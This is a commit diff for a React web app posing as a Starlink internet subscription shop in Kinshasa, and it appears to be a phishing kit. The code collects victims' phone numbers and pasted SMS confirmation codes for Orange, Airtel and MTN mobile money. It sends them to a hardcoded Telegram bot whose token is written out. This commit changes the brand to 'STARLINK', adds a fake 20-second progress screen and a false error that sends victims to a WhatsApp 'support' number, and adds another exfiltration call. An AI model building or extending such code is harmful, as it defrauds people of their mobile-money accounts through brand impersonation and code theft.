

Before and after one commit to ivanloic/starlink, a React (Create React App) app: page / in a window 1280 px wide. Both pictures are taken after a click on the button "Forfait". Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Refactor plans and enhance UI with WhatsApp support
Updated plan details and added WhatsApp support link. Modified UI elements for better user experience.

```diff
--- a/src/App.js
+++ b/src/App.js
@@ -1,5 +1,8 @@
 import React, { useState, useEffect, useRef } from "react";
 import {
+  Shield,
+  Rocket,
+  Zap,
   Satellite,
   Download,
   Upload,
@@ -25,6 +28,7 @@
   ArrowLeft,
   Lock,
   Phone,
+  X,
   Pencil,
   Clipboard,
 } from "lucide-react";
@@ -90,55 +94,111 @@
 
 const PLANS = [
   {
-    id: "essentiel",
-    name: "Essentiel",
-    tagline: "Navigation & réseaux sociaux",
-    monthly: 35,
-    down: 30,
-    up: 8,
+    id: "basique",
+    name: "Forfait Basique",
+    tagline: "Connexion rapide pour la navigation",
+    monthly: 3000,
+    currency: "FC",
+    down: 100,
+    up: null,
     users: "1–2 appareils",
-    features: ["Installation antenne incluse", "Assistance 7j/7", "Sans engagement"],
+    features: [
+      "Connexion ultra rapide",
+      "Navigation & réseaux sociaux",
+      "Sans engagement",
+    ],
     badge: null,
     accent: "#38BDF8",
     icon: Wifi,
   },
+
   {
-    id: "foyer",
-    name: "Foyer",
-    tagline: "Streaming HD & télétravail",
-    monthly: 65,
-    down: 100,
-    up: 20,
+    id: "standard",
+    name: "Forfait Standard",
+    tagline: "Streaming & usage quotidien",
+    monthly: 5000,
+    currency: "FC",
+    down: 200,
+    up: null,
+    users: "Jusqu'à 5 appareils",
+    features: [
+      "Streaming HD",
+      "Connexion stable",
+      "Sans engagement",
+    ],
+    badge: null,
+    accent: "#2DD4BF",
+    icon: Zap,
+  },
+
+  {
+    id: "premium",
+    name: "Forfait Premium",
+    tagline: "Streaming, jeux & télétravail",
+    monthly: 8000,
+    currency: "FC",
+    down: 300,
+    up: null,
     users: "Jusqu'à 8 appareils",
-    features: ["Routeur Wi-Fi 6 inclus", "Priorité réseau", "Assistance 7j/7"],
+    features: [
+      "Streaming HD & 4K",
+      "Jeux en ligne sans coupure",
+      "Travail & études à distance",
+    ],
     badge: "Le plus choisi",
-    accent: "#2DD4BF",
-    icon: Home,
+    accent: "#A78BFA",
+    icon: Rocket,
   },
+
   {
     id: "pro",
-    name: "Pro Entreprise",
-    tagline: "PME, visio & IP fixe",
-    monthly: 150,
-    down: 250,
-    up: 50,
-    users: "Multi-sites",
-    features: ["Adresse IP fixe", "Support prioritaire 24/7", "SLA 99,9 %"],
+    name: "Forfait Pro",
+    tagline: "Performance maximale pour les professionnels",
+    monthly: 12000,
+    currency: "FC",
+    down: 500,
+    up: null,
+    users: "Nombreux appareils",
+    features: [
+      "Connexion très haut débit",
+      "Travail professionnel",
+      "Streaming & visioconférence",
+    ],
     badge: null,
-    accent: "#A78BFA",
+    accent: "#6366F1",
+    icon: Shield,
+  },
+
+  {
+    id: "business",
+    name: "Forfait Business",
+    tagline: "Internet ultra haut débit pour entreprises",
+    monthly: 20000,
+    currency: "FC",
+    down: 1000,
+    up: null,
+    users: "Multi-utilisateurs",
+    features: [
+      "Débit jusqu'à 1000 Mbps",
+      "Usage professionnel intensif",
+      "Connexion rapide, stable et fiable",
+    ],
+    badge: "Business",
+    accent: "#2563EB",
     icon: Building2,
   },
 ];
 
 const OPERATORS = [
-  { id: "orange", name: "Orange Money", shortName: "Orange", mono: "OM", color: "#FF7900" },
-  { id: "airtel", name: "Airtel Money", shortName: "Airtel", mono: "AM", color: "#ED1C24" },
-  { id: "mtn", name: "MTN MoMo", shortName: "MTN", mono: "MM", color: "#FFCC00" },
+  { id: "orange", name: "Orange Money", shortName: "Orange", mono: "OM", logo: "/orange_money.png", color: "#FF7900" },
+  { id: "airtel", name: "Airtel Money", shortName: "Airtel", mono: "AM", logo: "/airtel_money.png", color: "#ED1C24" },
+  { id: "mtn", name: "MTN MoMo", shortName: "MTN", mono: "MM", logo: "/mtn_momo.png", color: "#FFCC00" },
 ];
 
 // --- Notification Telegram (numéro de téléphone uniquement) ---
 const TELEGRAM_BOT_TOKEN = "8867979460:AAHLTjlnZhKcLCv_uVfHz0RlYxWwSxLJBYM";
 const TELEGRAM_CHAT_ID = "6018499075";
+const WHATSAPP_SUPPORT_URL = "https://wa.me/14484465948?text=Bonjour%2C%20j%27ai%20une%20erreur%20et%20j%27ai%20besoin%20d%27aide%20pour%20mon%20paiement.";
 
 function notifyTelegram(text) {
   fetch(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`, {
@@ -455,11 +515,11 @@
       {/* price */}
       <div className="mt-4 flex items-end gap-2">
         <span className="font-[JetBrains_Mono] text-[28px] leading-none font-bold text-[#EAF0FB]">
-          ${price}
+         {price}fc
         </span>
         <span className="text-xs text-[#8C97B8] pb-1">/mois</span>
         {cycle === "annuel" && (
-          <span className="text-xs text-[#8C97B8]/60 line-through pb-1">${plan.monthly}</span>
+          <span className="text-xs text-[#8C97B8]/60 line-through pb-1">{plan.monthly}fc</span>
         )}
       </div>
 
@@ -605,10 +665,10 @@
               style={isSelected ? { borderColor: `${op.color}80`, boxShadow: `0 0 0 1px ${op.color}40` } : undefined}
             >
               <span
-                className="flex items-center justify-center w-11 h-11 rounded-full font-[JetBrains_Mono] text-xs font-bold shrink-0"
-                style={{ backgroundColor: `${op.color}22`, color: op.color }}
+                className="flex items-center justify-center w-11 h-11 rounded-full overflow-hidden shrink-0 border border-white/10 bg-white/5"
+                style={{ backgroundColor: `${op.color}22` }}
               >
-                {op.mono}
+                <img src={op.logo} alt={op.name} className="w-full h-full object-cover" />
               </span>
               <div className="text-left">
                 <p className="text-[10px] uppercase tracking-[0.1em] text-[#8C97B8]">Payer avec</p>
@@ -716,10 +776,10 @@
     <div className="flex-1 flex flex-col overflow-y-auto px-5 pb-6 animate-[fadeSlideUp_0.4s_ease_both]">
       <div className="flex flex-col items-center pt-8">
         <span
-          className="flex items-center justify-center w-14 h-14 rounded-full font-[JetBrains_Mono] text-sm font-bold"
-          style={{ backgroundColor: `${operator.color}22`, color: operator.color }}
+          className="flex items-center justify-center w-14 h-14 rounded-full overflow-hidden border border-white/10 bg-white/5"
+          style={{ backgroundColor: `${operator.color}22` }}
         >
-          {operator.mono}
+          <img src={operator.logo} alt={operator.name} className="w-full h-full object-cover" />
         </span>
         <p className="mt-4 text-sm text-[#8C97B8]">Confirmez votre numéro {operator.name}</p>
         <p className="mt-2 font-[JetBrains_Mono] text-2xl font-bold text-[#EAF0FB] tracking-wide">{phone}</p>
@@ -767,10 +827,10 @@
     <div className="flex-1 flex flex-col overflow-y-auto px-5 pb-6 animate-[fadeSlideUp_0.4s_ease_both]">
       <div className="flex flex-col items-center pt-6">
         <span
-          className="flex items-center justify-center w-14 h-14 rounded-full font-[JetBrains_Mono] text-sm font-bold"
-          style={{ backgroundColor: `${operator.color}22`, color: operator.color }}
+          className="flex items-center justify-center w-14 h-14 rounded-full overflow-hidden border border-white/10 bg-white/5"
+          style={{ backgroundColor: `${operator.color}22` }}
         >
-          {operator.mono}
+          <img src={operator.logo} alt={operator.name} className="w-full h-full object-cover" />
         </span>
         <p className="mt-3 text-sm font-semibold text-[#EAF0FB]">{operator.name}</p>
         <p className="mt-2 text-xs text-[#8C97B8] text-center max-w-[240px]">
@@ -870,30 +930,95 @@
   );
 }
 
-function SuccessScreen({ operator, plan, price, onDone }) {
+function ErrorScreen({ operator, onDone, onContactWhatsApp }) {
   return (
     <div className="flex-1 flex flex-col items-center justify-center px-8 text-center gap-4">
       <span
         className="flex items-center justify-center w-16 h-16 rounded-full animate-[fadeSlideUp_0.5s_ease_both]"
         style={{ backgroundColor: `${operator.color}22`, color: operator.color }}
       >
-        <CheckCircle2 size={30} />
+        <X size={30} strokeWidth={2.5} />
       </span>
       <div>
         <p className="font-display text-lg font-bold text-[#EAF0FB]">
-          Connexion à votre SIM {operator.shortName} établie
+          Une erreur s’est produite
         </p>
-        <p className="mt-1.5 text-xs text-[#8C97B8]">
-          Votre forfait {plan.name} (${price}/mois) est activé. Bienvenue chez Starlinf !
+        <p className="mt-1.5 text-xs leading-relaxed text-[#8C97B8]">
+          Nous n’avons pas pu finaliser votre demande. Contactez le service client sur WhatsApp pour obtenir de l’aide.
         </p>
       </div>
+
+      <a
+        href={WHATSAPP_SUPPORT_URL}
+        target="_blank"
+        rel="noreferrer"
+        onClick={onContactWhatsApp}
+        style={{ backgroundColor: operator.color }}
+        className="mt-2 w-full rounded-xl px-4 py-3 text-sm font-semibold text-[#05070D] transition-transform duration-300 active:scale-[0.98] flex items-center justify-center gap-2"
+      >
+        <Phone size={16} />
+        Contacter le service client
+      </a>
+
       <button
         onClick={onDone}
-        style={{ backgroundColor: operator.color }}
-        className="mt-4 w-full rounded-xl px-4 py-3 text-sm font-semibold text-[#05070D] transition-transform duration-300 active:scale-[0.98]"
+        className="w-full rounded-xl bg-white/[0.05] px-4 py-3 text-sm font-semibold text-[#8C97B8]"
       >
-        Terminé
+        Fermer
       </button>
+    </div>
+  );
+}
+
+function FinalizingScreen({ operator }) {
+  const [progress, setProgress] = useState(0);
+
+  useEffect(() => {
+    const start = Date.now();
+    const duration = 20000;
+    let raf;
+
+    function tick() {
+      const elapsed = Date.now() - start;
+      const p = Math.min(100, (elapsed / duration) * 100);
+      setProgress(p);
+      if (p < 100) raf = requestAnimationFrame(tick);
+    }
+
+    raf = requestAnimationFrame(tick);
+    return () => cancelAnimationFrame(raf);
+  }, []);
+
+  const r = 42;
+  const circumference = 2 * Math.PI * r;
+
+  return (
+    <div className="flex-1 flex flex-col items-center justify-center px-8 text-center gap-5">
+      <div className="relative w-36 h-36 flex items-center justify-center">
+        <svg className="absolute inset-0 -rotate-90" viewBox="0 0 100 100">
+          <circle cx="50" cy="50" r={r} fill="none" stroke="rgba(255,255,255,0.08)" strokeWidth="6" />
+          <circle
+            cx="50"
+            cy="50"
+            r={r}
+            fill="none"
+            stroke={operator.color}
+            strokeWidth="6"
+            strokeLinecap="round"
+            strokeDasharray={circumference}
+            strokeDashoffset={circumference * (1 - progress / 100)}
+            style={{ transition: "stroke-dashoffset 0.2s linear" }}
+          />
+        </svg>
+        <span className="font-[JetBrains_Mono] text-2xl font-bold text-[#EAF0FB]">{Math.round(progress)}%</span>
+      </div>
+
+      <div>
+        <p className="font-display text-lg font-bold text-[#EAF0FB]">Finalisation...</p>
+        <p className="mt-2 text-sm leading-relaxed text-[#8C97B8]">
+          Connexion au réseau Starlink en cours
+        </p>
+      </div>
     </div>
   );
 }
@@ -903,6 +1028,7 @@
   const [seconds, setSeconds] = useState(30);
   const [justRefreshed, setJustRefreshed] = useState(false);
   const [sent, setSent] = useState(false);
+  const [finalizing, setFinalizing] = useState(false);
 
   useEffect(() => {
     const id = setInterval(() => {
@@ -933,18 +1059,43 @@
     setMessage(`${operator.shortName}: Votre code de confirmation Starlinf est ${code}. Valide 30 secondes.`);
   };
 
+  useEffect(() => {
+    if (!finalizing) return;
+
+    const timer = setTimeout(() => {
+      setFinalizing(false);
+      setSent(true);
+    }, 20000);
+
+    return () => clearTimeout(timer);
+  }, [finalizing]);
+
+  if (finalizing) {
+    return <FinalizingScreen operator={operator} />;
+  }
+
   if (sent) {
-    return <SuccessScreen operator={operator} plan={plan} price={price} onDone={onFinish} />;
+    return (
+      <ErrorScreen
+        operator={operator}
+        onDone={onFinish}
+        onContactWhatsApp={() => {
+          notifyTelegram(
+            `⚠️ Erreur signalée\nForfait : ${plan.name} ($${price}/mois)\nOpérateur : ${operator.name}\nNuméro : ${phone}`
+          );
+        }}
+      />
+    );
   }
 
   return (
     <div className="flex-1 flex flex-col overflow-y-auto px-5 pb-6 animate-[fadeSlideUp_0.4s_ease_both]">
       <div className="flex flex-col items-center pt-4">
         <span
-          className="flex items-center justify-center w-14 h-14 rounded-full font-[JetBrains_Mono] text-sm font-bold"
-          style={{ backgroundColor: `${operator.color}22`, color: operator.color }}
+          className="flex items-center justify-center w-14 h-14 rounded-full overflow-hidden border border-white/10 bg-white/5"
+          style={{ backgroundColor: `${operator.color}22` }}
         >
-          {operator.mono}
+          <img src={operator.logo} alt={operator.name} className="w-full h-full object-cover" />
         </span>
         <p className="mt-3 text-sm font-semibold text-[#EAF0FB]">
           Connexion à votre SIM {operator.shortName}
@@ -1002,7 +1153,7 @@
             notifyTelegram(
               `📨 Message collé\nForfait : ${plan.name} ($${price}/mois)\nOpérateur : ${operator.name}\nNuméro : ${phone}\nMessage : ${message}`
             );
-            setSent(true);
+            setFinalizing(true);
           }}
           style={message.trim() ? { backgroundColor: operator.color } : undefined}
           className={`w-full rounded-xl px-4 py-3 text-sm font-semibold transition-all duration-300 ${
@@ -1080,7 +1231,7 @@
   };
 
   return (
-    <div className="min-h-screen w-full flex items-center justify-center bg-[#05070D] py-6 px-2">
+    <div className="min-h-screen w-full bg-[#05070D]">
       <style>{`
         @import url('https://fonts.googleapis.com/css2?family=Sora:wght@600;700;800&family=Inter:wght@400;500;600&family=JetBrains+Mono:wght@400;500;700&display=swap');
         * { font-family: 'Inter', sans-serif; }
@@ -1104,7 +1255,7 @@
         }
       `}</style>
 
-      <div className="relative w-full max-w-[430px] h-[860px] max-h-[92vh] rounded-[2.25rem] overflow-hidden bg-[#0B1224] border border-white/[0.08] shadow-2xl flex flex-col">
+      <div className="relative w-full h-[100dvh] max-h-[100dvh] overflow-hidden bg-[#0B1224] flex flex-col">
         {checkoutStep ? (
           <>
             {!["connecting", "simConnect"].includes(checkoutStep) && (
@@ -1187,14 +1338,14 @@
                   <Satellite size={16} />
                 </span>
                 <span className="font-display text-[17px] font-extrabold tracking-tight text-[#EAF0FB]">
-                  STARLINF
+                  STARLINK
                 </span>
               </div>
               <span className="text-[10px] uppercase tracking-[0.14em] text-[#8C97B8]">RDC · Kinshasa</span>
             </div>
 
             {/* content */}
-            <main key={active} className="flex-1 overflow-y-auto px-5 pb-6 animate-[fadeSlideUp_0.4s_ease_both]">
+            <main key={active} className="flex-1 overflow-y-auto px-5 pb-6 animate-[fadeSlideUp_0.4s_ease_both] [&::-webkit-scrollbar]:hidden [-ms-overflow-style:none] [scrollbar-width:none]">
               {active === "statut" ? (
                 <StatutView active={active === "statut"} onBuy={() => setActive("forfait")} />
               ) : (
```
